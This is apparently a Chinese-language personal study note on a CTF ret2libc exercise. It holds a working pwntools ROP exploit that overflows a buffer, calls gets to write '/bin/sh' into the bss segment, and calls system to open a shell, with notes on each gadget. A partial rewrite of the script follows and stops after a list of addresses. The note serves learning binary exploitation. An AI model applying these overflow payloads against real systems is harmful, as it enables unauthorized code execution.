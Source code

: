### 例2
和上面的例子类似，只是这次没了`/bin/sh`字符串，所以需要自己构造ROP读入这样的字符串，自己没想出来，这是网站上的脚本：  
```python
from pwn import *

sh = process('./ret2libc2')

gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080
payload = flat(
    ['a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()
```

大概逻辑就是先跳到gets去读字符串，然后跳到system执行系统命令  
说3个点：  
1. 脚本中用了bss段的buf2的地址，因为bss段的地址不变，比buf2地址小一点也是可以的
2. `pop_ebx`的作用是把栈上buf2的地址弹出来，这个地址一开始是gets函数用的，在这个例子里，只有`pop_ebx`符合条件，没有其它好的pop
3. 读的字符串可以是 '/bin/sh', '/bin/bash', 'sh', 'bash'，用第1个应该是考虑到更通用一些
4. 0xdeadbeef 只是为了填充栈，换成 'b' * 4 也没问题

自己再写一遍，加强记忆  
```python
# coding:utf8
# python3

'''
main return addr
0000| 0xffffd01c --> 0xf7de8ee5 (<__libc_start_main+245>:	add    esp,0x10)

my input addr 
0000| 0xffffcf90 --> 0xffffcfac ("hello")

0x70

gets addr
0x08048460

call system addr
0x08048641

pop thing addr
0x0804843d : pop ebx ; ret

buf2 addr
0x0804A080


'''

from pwn import *

exe = ELF('ret2libc2')

context.binary = exe

gets_addr = 0x08048460
call_system_addr = 0x08048641
pop_ebx_addr = 0x0804843d
buf2_addr = 0x0804A080
```